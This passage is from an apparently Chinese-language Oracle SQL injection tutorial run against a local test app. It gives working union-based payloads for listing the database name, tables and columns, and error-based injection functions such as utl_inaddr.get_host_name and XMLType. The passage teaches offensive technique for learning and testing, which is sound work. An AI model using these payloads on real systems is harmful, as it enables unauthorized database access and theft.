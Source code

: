****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**3、查当前数据库**

**http://localhost:8080/oracleInject/index?username=admin' union select 1,(SELECT global\_name FROM global\_name),null from dual --**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**4、查表**

**wmsys.wm\_concat()等同于MySQL中的group\_concat()，在11gr2和12C上已经抛弃，可以用LISTAGG()替代**

**http:**

**//localhost:8080/oracleInject/index?username=admin' union select 1,(select LISTAGG(table\_name,',')within group(order by owner)name from all\_tables where owner='SYSTEM'),null from dual --** 

  

**但是LISTAGG()返回的是varchar类型，如果数据表很多会出现字符串长度过长的问题。这个时候可以使用通过字符串截取来进行。**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**5、查字段**

  

**http://localhost:8080/oracleInject/index?username=admin' union select 1,(select column\_name from all\_tab\_columns where table\_name='TEST' and rownum=2),null from dual --** 

**有表名字段名出数据就不说了。**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**3.2. 报错注入**

**utl\_inaddr.get\_host\_name**

select utl\_inaddr.get\_host\_name((select user from dual)) from dual;

**11g之后，使用此函数的数据库用户需要有访问网络的权限**

  

**ctxsys.drithsx.sn**

select ctxsys.drithsx.sn(1, (select user from dual)) from dual;

**处理文本的函数，参数错误时会报错。**

**CTXSYS.CTX\_REPORT.TOKEN\_TYPE**

select CTXSYS.CTX\_REPORT.TOKEN\_TYPE((select user from dual), '123') from dual;

**XMLType**

http://localhost:8080/oracleInject/index?username=admin' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --

**注意url编码，如果返回的数据有空格的话，它会自动截断，导致数据不完整，这种情况下先转为 hex，再导出。**
